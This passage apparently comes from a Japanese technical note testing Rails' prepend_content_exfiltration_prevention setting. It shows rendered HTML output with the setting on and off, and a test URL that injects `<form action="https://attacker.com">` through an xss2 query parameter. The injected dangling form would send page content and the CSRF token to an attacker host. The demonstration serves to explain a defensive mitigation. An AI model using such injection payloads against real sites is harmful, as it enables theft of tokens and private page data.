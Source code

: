 ```
<h1>secret</h1>

  </body>
</html>
```

### config.action_view.prepend_content_exfiltration_prevention = true

```
<!DOCTYPE html>
<html>
  <head>
    <title>Myapp</title>
    <meta name="viewport" content="width=device-width,initial-scale=1">
    <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="4oOfVm-jsAlnlc6CdNUqOuBtBvXLlRaSejvuURA83pKVeHAz54oxHJTRX44cIw0w7_LjFXEXKsEyGoDw7GcHOQ" />
    
    
    <link rel="stylesheet" href="/assets/application-e0cf9d8fcb18bf7f909d8d91a5e78499f82ac29523d475bf3a9ab265d5e2b451.css" data-turbo-track="reload" />
  </head>

  <body>
    <form action="https://attacker.com"><option>

<!-- '"` --><!-- </textarea></xmp> --></option></form><form class="button_to" method="post" action="http://www.example.com"><button type="submit">Hello</button><input type="hidden" name="authenticity_token" value="75-k-wFQiAUyO5XbQ3fyReQ7DTr9nH0WLLalbCyBgBNJOsCEJ98y8Gl2mLwOkFboZcsmMKxuDJTyRksW5Rx1zQ" autocomplete="off" /></form>

<h1>secret</h1>

  </body>
</html>
```

### 結果

## `<form action="https://attacker.com">`

http://localhost:3000/?xss2=%3Cform%20action=%22https://attacker.com%22%3E

### config.action_view.prepend_content_exfiltration_prevention = false

```
<!DOCTYPE html>
<html>
  <head>
    <title>Myapp</title>
    <meta name="viewport" content="width=device-width,initial-scale=1">
    <meta name="csrf-param" content="authenticity_token" />
<meta name="csrf-token" content="K4OimzKx8AhaWoAiKmZ5p2h_flnIl97EInrDN0DNLXpceE3-uphxHakeES5CkF6tZ-CbuXIV4pdqW62WvJb00Q" />
    
    
    <link rel="stylesheet" href="/assets/application-e0cf9d8fcb18bf7f909d8d91a5e78499f82ac29523d475bf3a9ab265d5e2b451.css" data-turbo-track="reload" />
  </head>

  <body>
```